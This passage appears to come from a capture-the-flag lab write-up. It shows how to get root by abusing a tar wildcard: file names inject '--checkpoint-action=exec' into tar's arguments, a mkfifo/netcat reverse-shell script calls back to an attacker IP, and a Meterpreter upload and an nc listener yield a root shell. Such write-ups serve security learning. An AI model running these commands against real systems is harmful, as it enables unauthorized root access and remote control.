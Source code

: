 Create the malicious files on the target machine.

```bash
cd /var/www/html
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh priv_esc.sh'
```

`bg` the meterpreter session and create a malicious script that will start a reverse shell.

```bash
msf6 exploit(multi/handler) > cat priv_esc.sh
[*] exec: cat priv_esc.sh

mkfifo /tmp/f; nc 10.10.237.245 443 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Resume the meterpreter session and upload the script to the target.

```bash
meterpreter > cd /var/www/html
meterpreter > upload priv_esc.sh
[*] Uploading  : /root/priv_esc.sh -> priv_esc.sh
[*] Uploaded -1.00 B of 79.00 B (-1.27%): /root/priv_esc.sh -> priv_esc.sh
[*] Completed  : /root/priv_esc.sh -> priv_esc.sh
```

Drop into a system shell and ensure that the script has execution rights.

```bash
chmod +x priv_esc.sh
```

Start a listener on your attack box.  
Now all you have to do is sit back and wait, you should get a connection soon.

```bash
nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from 10.10.114.155 51842 received!
whoami
root
```

To sum up: the malicious script was run leveraging the tar command.  
Since the tar command was running with root privileges, the script ran as root as well.  
As a consequence you are able to get a reverse shell with root access.  
Grab the root flag and you are done.

```bash
cd /root
ls
root.txt
cat root.txt
[REDACTED]
```

This concludes this room, see you in the next one. Happy hacking!
